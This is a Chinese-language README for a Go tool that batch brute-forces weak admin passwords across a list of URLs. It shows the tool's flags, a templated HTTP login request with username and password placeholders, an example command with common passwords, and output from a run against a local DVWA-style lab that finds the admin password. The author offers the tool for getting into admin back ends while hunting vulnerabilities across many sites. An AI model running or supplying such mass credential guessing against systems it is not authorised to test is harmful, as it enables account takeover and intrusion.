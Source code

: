# passBurte
小工具   一个用于通用漏洞挖掘时批量爆破弱口令的工具

在挖掘通用漏洞时,有些时候需要获取后台密码,我们可以导入url列表进行批量爆破

这是根据自己的需求写的小工具

# 使用方法
### 参数
    使用 -h 显示帮助信息
        -charset string      编码方式                                      
        -hash string         密码md5 或 base64,暂只支持md5/base64                                      
        -links string        爆破IP地址文件 (default "links.txt")          
        -passwd string       爆破密码,使用逗号隔开 (default "123456,admin")
        -perr string         密码错误提示，使用正则表达式                  
        -psuc string         密码正确提示，使用正则表达式                  
        -src string          数据包 (default "1.txt")                      
        -success             是否只显示成功的数据                          
        -time-sec float      设置请求间隔，单位秒                          
        -user string         爆破账号                                      
        -viewerr             是否显示报错信息                              
        -viewresp            是否显示响应数据
    
### 使用
复制请求的http数据包到`1.txt`中,设置好账号和密码标记.

使用`^USER^`标记用户名,使用`^PASS^` 标记密码

    GET /vulnerabilities/brute/?username=^USER^&password=^PASS^&Login=Login HTTP/1.1
    Host: 127.0.0.1
    sec-ch-ua: "Chromium";v="105", "Not)A;Brand";v="8"
    sec-ch-ua-mobile: ?0
    sec-ch-ua-platform: "Windows"
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.127 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: http://127.0.0.1/vulnerabilities/brute/
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: Hm_lvt_520556228c0113270c0c772027905838=1668054376; PHPSESSID=1t4lik619631cpu1gqddsac8lj; security=low
    Connection: close

复制请求url到`links.txt`

    http://127.0.0.1/
    http://127.0.0.1/
    http://127.0.0.1/
    http://127.0.0.1/
    http://127.0.0.1/
    http://127.0.0.1/
    http://127.0.0.1/
    http://127.0.0.1/
    http://127.0.0.1/
    http://127.0.0.1/
    

设置好用于判断是否爆破成功的`perr`或`psuc`,以及是否进行密码的编码`hash`,响应包的编码`charset`等信息 即可开始批量爆破

perr 参数  在响应包中只有<font color=#FF000 >**密码错误**</font>才会有的关键字,可使用正则表达式

psuc 参数  在响应包中只有<font color=#FF000 >**密码正确**</font>才会有的关键字,可使用正则表达式

默认会显示响应消息,使用`-viewresp=false` 关闭

     go_build_passBurte.exe -user admin -passwd 123456,admin,admin123,password -psuc "Welcome to the password" -time-sec 1 -viewresp=false

输出结果:

    http 请求方法： GET
    错误提示：
    请求数据： username=^USER^&password=123456,admin,admin123,password&Login=Login
    http 请求头:
    Referer http://127.0.0.1/vulnerabilities/brute/
    sec-ch-ua "Chromium";v="105", "Not)A;Brand";v="8"
    User-Agent Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.127 Safari/537.36
    Sec-Fetch-User ?1
    Sec-Fetch-Dest document
    Cookie Hm_lvt_520556228c0113270c0c772027905838=1668054376; PHPSESSID=1t4lik619631cpu1gqddsac8lj; security=low
    sec-ch-ua-mobile ?0
    Accept text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site same-origin
    Accept-Encoding gzip, deflate
    Accept-Language zh-CN,zh;q=0.9
    Host 127.0.0.1
    sec-ch-ua-platform "Windows"
    Upgrade-Insecure-Requests 1
    Sec-Fetch-Mode navigate
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码正确 http://127.0.0.1//vulnerabilities/brute/ data: username=admin&password=password&Login=Login
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码正确 http://127.0.0.1//vulnerabilities/brute/ data: username=admin&password=password&Login=Login
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码正确 http://127.0.0.1//vulnerabilities/brute/ data: username=admin&password=password&Login=Login
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码正确 http://127.0.0.1//vulnerabilities/brute/ data: username=admin&password=password&Login=Login
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码错误 http://127.0.0.1//vulnerabilities/brute/
    密码正确 http://127.0.0.1//vulnerabilities/brute/ data: username=admin&password=password&Login=Login
    密码错误 http://127.0.0.1//vulnerabilities/brute/
